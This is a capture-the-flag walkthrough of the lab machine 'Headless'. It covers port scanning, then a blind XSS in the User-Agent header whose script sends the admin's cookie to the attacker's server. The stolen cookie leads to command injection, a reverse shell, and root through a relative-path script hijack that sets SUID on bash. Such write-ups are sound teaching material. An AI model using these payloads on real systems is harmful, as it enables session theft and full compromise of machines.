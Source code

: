 ```yaml
---
title: Headless
published: true
layout: post
---
```


&NewLine;

---------------
Headless is an easy-difficulty Linux machine that features a Python Werkzeug server hosting a website. The website has a customer support form, which is found to be vulnerable to blind Cross-Site Scripting (XSS) via the User-Agent header. This vulnerability is leveraged to steal an admin cookie, which is then used to access the administrator dashboard. The page is vulnerable to command injection, leading to a reverse shell on the box. Enumerating the user’s mail reveals a script that does not use absolute paths, which is leveraged to get a shell as root.

---------------------------------------------------
&NewLine;
## Walkthrough

### Reconnaissance

The first thing to do is **scan for open ports** in the target machine, I will divide this in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

&NewLine;
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.8 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![Port_Scan](/assets/Headless/Pasted image 20240731154855.png)
&NewLine;
There are two open ports:
- **22/tcp**
- **5000/tcp**
&NewLine;
Even though we can see that nmap is reporting a service, it is only given by the port number, not by any check, so let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.8 -p 22,5000 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Service_Scan](/assets/Headless/Pasted image 20240731160318.png)
&NewLine;
We can see that the two services correspond to:
+ **22/tcp ssh**
+ **5000/tcp http**
&NewLine;
Although nmap is reporting us that the service might be upnp, we can see html code in the response. Some interesting pieces of information are the version of **Werkzeug**, **Python** and the ***is_admin* cookie**.

Let's scan for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.8 -p 22,5000 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

From this scan we got no relevant information.
&NewLine;
Let's scan this website for **directories and files** it may contain:

```bash
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_and_file_enum_5000.txt -t 25 -r
```

![Gobuster_Scan](/assets/Headless/Pasted image 20240731170119.png)
&NewLine;
The **dashboard** website **requires some kind of authorization**, which may be related to the ***is_admin* cookie**.

![Unauthorized](/assets/Headless/Pasted image 20240731170210.png)
&NewLine;
Before exploring the website, let's add an entry in ***/etc/hosts*** for this machine:

![etc_hosts](/assets/Headless/Pasted image 20240731161705.png)
&NewLine;
&NewLine;
### Foothold

The first thing we see when exploring the website is a countdown:

![Welcome](/assets/Headless/Pasted image 20240731162251.png)
&NewLine;
By clicking on the link we get to a **support form**, we can try to **inject** HTML code with JavaScript code in this form, we will use it to **steal the reader's cookies**:

```HTML
<script>
	var i=new Image();
	i.src="http://10.10.16.4/?cookie="+btoa(document.cookie);
</script>
```
&NewLine;
This code will create a variable that is supposed to be an image, the image will be requested to our server along containing the user cookies encoded in base64.

![Contact](/assets/Headless/Pasted image 20240731163301.png)
&NewLine;
Before clicking on submit, let's open a **web server** to receive the request:
```python
sudo python3 -m http.server 80
```

After submitting the form, we receive this notification:

![Hacking](/assets/Headless/Pasted image 20240731162643.png)
&NewLine;
Our code has not been submitted to the target, however we can see that the website has gathered and send some **information available in the HTTP request to the administrators**. Among all of these information, there is one piece that we can modify, the **User-Agent**. Let's use BurpSuite to do this:

![XSS](/assets/Headless/Pasted image 20240731163634.png])

After a few moments, we receive a **request to our web server**:
![Cookie_Steal](/assets/Headless/Pasted image 20240731164047.png)
&NewLine;
We should now decode the cookie:

```bash
echo -n "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

![Cookie_Decode](/assets/Headless/Pasted image 20240731164143.png)
&NewLine;
We can inject this cookie into our browser to **impersonate the administrator**:

![Cookie_injection](/assets/Headless/Pasted image 20240731164319.png)
&NewLine;
Now we can navigate to the dashboard website to see the **administrator dashboard**:

![Dashboard](/assets/Headless/Pasted image 20240731170332.png)
&NewLine;
We can see that the website is used to generate a report based on the health of the website, when we click the *Generate Report* button we can see the message *Systems are up and running!* which may imply that this website is executing an **OS command**. Let's try to send our attacker machine a ping with BurpSuite:

```python
sudo tcpdump -vvvXi tun0 icmp
```

![ping](/assets/Headless/Pasted image 20240731170920.png)
![tcpdump](/assets/Headless/Pasted image 20240731170935.png)
&NewLine;
It worked! Let's now try to get a **reverse shell**:

```bash
sudo rlwrap nc -nlvp 443
```

![shell_burp](/assets/Headless/Pasted image 20240731171312.png)
&NewLine;
We received a shell:

![shell](/assets/Headless/Pasted image 20240731171422.png)
&NewLine;
Let's **sanitize the shell**:

```bash
Pwned> script /dev/null -c /bin/bash
#Ctrl+Z
Hacker> stty raw -echo; fg
Pwned> reset xterm
Pwned and Hacked> stty size #Para comprobar el número de filas y columnas del terminal
Pwned> stty rows $rows columns $columns
export TERM=xterm
export SHELL=bash
```
&NewLine;
![whoami](/assets/Headless/Pasted image 20240731171720.png)
&NewLine;
We are logged in as *dvir*, so we got the **user flag**.

![user_flag](/assets/Headless/Pasted image 20240731171757.png)
&NewLine;
&NewLine;
### Privilege Escalation

During the initial reconnaissance, we discovered that user *dvir* can run the script */usr/bin/syscheck* using `sudo`.

![sudoers](/assets/Headless/Pasted image 20240731171938.png)
&NewLine;
This script, among other things, **run the *initdb.sh* file* indicated by **relative path**:

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
&NewLine;
&NewLine;
We can leverage this to **create our *initdb.sh* file** and **run it with sudo privileges**:

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
```
&NewLine;
&NewLine;
We can now check that the */bin/bash* binary has ***SUID* permission**:

![SUID](/assets/Headless/Pasted image 20240731172912.png)
&NewLine;
And to finally **gain privileges** we can run:

```bash
bash -p
```

![root_flag](/assets/Headless/Pasted image 20240731173020.png)
&NewLine;
